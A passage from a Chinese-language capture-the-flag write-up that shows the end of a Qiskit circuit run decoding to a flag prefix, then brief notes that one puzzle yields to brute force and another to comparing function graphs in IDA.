qobj = assemble(transpile(qc, backend=backend), shots=8096)
job = backend.run(qobj)

result = job.result()
count = result.get_counts()
print(count)

# {'0110011001101100011000010110011101111011....01111101': 8096}
#   0x66    #0x6c   0x61    0x67    0x7b        0x7d
#   f       l       a       g       {           }
```

</details>

## 企鹅拼盘

前两问暴力跑就能出结果了。

## 火眼金睛的小 E

### 有手就行

用 IDA 打开两个文件，找到对应的函数看流程图。很容易找到相似的，确实有手就行。


